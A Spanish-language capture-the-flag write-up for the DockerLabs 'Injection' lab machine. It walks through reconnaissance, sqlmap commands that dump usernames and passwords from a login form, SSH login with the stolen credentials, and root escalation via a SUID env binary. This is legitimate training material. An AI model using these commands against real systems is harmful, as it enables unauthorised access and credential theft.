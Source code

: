 ```yaml
---
title: Injection - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Muy Fàcil  | ElPinguinoDeMario | 

## Reconocimiento

Vemos el puerto 22 y el puerto 80.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/34d69cbb-28db-40f4-9ecf-dc59dcf898e4)

Vamos a ver el puerto 80.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/5c2f251b-9d7a-4225-a983-bce7c58b4705)

Tenemos un panel de login.

Vamos a hacer fuzzing con Gobuster.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/0d977f1f-8f69-46ef-8d68-6be2ea6bed36)

Vemos el directorio `/config.php`, pero no hay nada, está en blanco.

Si hacemos varios intentos de contraseña, vemos este error.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/d1b820d1-fc58-46d1-b073-c544605072cb)

Vamos a probar una inyección SQL.

```
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
```
Nos muestra lo siguiente:

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/a33442e1-ee83-4d65-8b42-ca8ceaa09091)


Ahora usamos el siguiente comando para acceder a register:

```
sqlmap -u http://172.17.0.2/index.php --forms -D register --tables --batch
```

Accedemos a users y listamos las columnas:

```
sqlmap -u http://172.17.0.2/index.php --forms -D register -T users --columns --batch
```
![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/1443641b-e783-4363-9c2c-1100470f1ade)


Por último, listamos las dos columnas que hay: passwd y usernames, y tenemos credenciales.

```
sqlmap -u http://172.17.0.2/index.php --forms -D register -T users -C passwd,usernames --dump --batch
```
![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/bad6f6df-eb63-4e69-8ca4-421e5619508d)

Ahora, si accedemos a la web, nos dice lo siguiente:

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/785b3b3e-013f-4b11-b283-b5a0104c1fc8)


Vamos a ver si las credenciales son válidas para SSH.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/0a9bee3a-7ba9-4324-99ad-8f3b41928669)


Las credenciales son válidas para el SSH. Vamos a ver cómo escalamos privilegios.

Si hacemos una búsqueda de permisos SUID con el comando:

```
find / -perm -4000 2>/dev/null
```

Encontramos el binario env.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/3c73b313-4345-4972-af26-428f114224a9)

Vamos a explotarlo haciendo una búsqueda en GTFOBins.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/ff528a3e-7d11-4e4f-9a13-27d208224364)

¡YA SOMOS ROOT!
